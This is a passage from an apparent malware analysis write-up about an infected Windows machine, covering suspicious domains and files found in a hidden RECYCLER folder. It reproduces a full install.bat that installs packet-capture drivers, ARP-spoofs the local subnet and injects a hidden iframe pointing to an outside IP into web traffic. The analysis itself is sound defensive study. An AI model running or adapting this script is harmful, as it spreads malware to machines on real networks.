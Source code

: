 - bo.duba.net
- f-sq.beike.cn
- vc01.beike.cn

The list continued for many more domains with similar variations. A number of these domains also included what appeared to be domains for major anti-virus companies, like Kaspersky, AVG, ESET, etc. However, I did not verify if they were or not.

Meanwhile, back on the file system level I explored the contents of the `RECYCLER` folder on the root of the `C` drive. First, I enabled hidden files and folders on Windows, then I found the super strange items relaxing in there like it was a hot day at the beach.

Again, please right-click and Open the Image in a New Tab. At a quick glance, you can see some of the files that we mentioned earlier from the FTP session. Lets take a look inside some of these text-based files.

Inside of `ip.txt` is the infected machine's IP address. Inside of the `install.bat` file is the following:

```shell
copy npf.sys %systemroot%\system32\drivers
copy wpcap.dll %systemroot%\system32\
copy Packet.dll %systemroot%\system32\
@echo off
if exist ipconfig.txt del ipconfig.txt
ipconfig /all >ipconfig.txt
if exist IPAddr.txt del IPaddr.txt
find "IP Address" ipconfig.txt >IPAddr.txt
for /f "skip=2 tokens=15" %%K in (IPAddr.txt) do set IP=%%K
del IPAddr.txt
del ipconfig.txt
echo %ip%>ip.txt
del arp1.exe
del install.vbs
for /f "tokens=1-4 delims=." %%i in (ip.txt) do thatboy.exe -idx 0 -ip %%i.%%j.%%k.1-%%i.%%j.%%k.255 -port 80 -insert "<iframe src= http://104.152.215.90/1.html width=0 height=0></iframe>" -Interval 400 -spoofmode 2cls
```

That definitely looks juicy, huh? I'm not sure what your initial thoughts are, but my gut feeling tells me that this malware poisons the ARP cache to trick other systems on the network to forward their traffic through the infected machine.

The infected machine then runs the `thatboy.exe` binary and attempts to inject the malicious IFRAME to network traffic on port 80. What does this achieve? Basically, other machines on the network will also be infected with the same piece of malware, since they would also be exposed to the same exploit landing page. Lets take a closer look at the individual files.

The first file we'll explore is `arp2.exe`. Based on the icon of this file, it looks like it was probably created using WinRAR. I tried to extract the contents using 7-Zip, and sure enough, it dumped a folder with the following files in it:

- install.bat
- install.vbs
- npf.sys
- Packet.dll
- wpcap.dll
